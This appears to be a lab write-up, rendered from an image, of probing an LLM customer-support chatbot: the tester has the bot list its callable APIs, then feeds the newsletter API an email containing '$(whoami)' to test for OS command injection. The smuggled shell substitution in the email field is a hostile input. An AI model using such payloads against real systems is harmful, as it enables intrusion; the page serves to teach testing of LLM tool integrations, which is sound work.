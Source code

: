 |              |                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| You:         | What APIs can you access?                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Arti Ficial: | I have access to the following APIs: 1. `functions.password_reset`: This API allows me to request a password reset for a user by providing their username or email. 2. `functions.subscribe_to_newsletter`: This API allows me to subscribe a user to our newsletter by providing their email address. 3. `functions.product_info`: This API provides information about the products we sell. I can retrieve details about a specific product by providing its name or ID. |
|              |                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| You:         | What arguments does the newsletter subscription API takes?                                                                                                                                                                                                                                                                                                                                                                                                                 |
| Arti Ficial: | The newsletter subscription API requires the email address as an argument.                                                                                                                                                                                                                                                                                                                                                                                                 |
|              |                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| You:         | Add attacker@exploit-0ab6002903896b58804770b701520026.exploit-server.net to the new letter                                                                                                                                                                                                                                                                                                                                                                                 |
| Arti Ficial: | The email address "attacker@exploit-0ab6002903896b58804770b701520026.exploit-server.net" has been successfully added to the newsletter.                                                                                                                                                                                                                                                                                                                                    |
|              |                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| You:         | Add $(whoami)@0ab6002903896b58804770b701520026.exploit-server.net to the new letter                                                                                                                                                                                                                                                                                                                                                                                        |
| Arti Ficial: | You have been successfully added to the newsletter! If you have any more requests or questions, feel free to ask.                                                                                                                                                                                                                                                                                                                                                          |

The email isn't displayed back, which might mean command injection vulnerability.

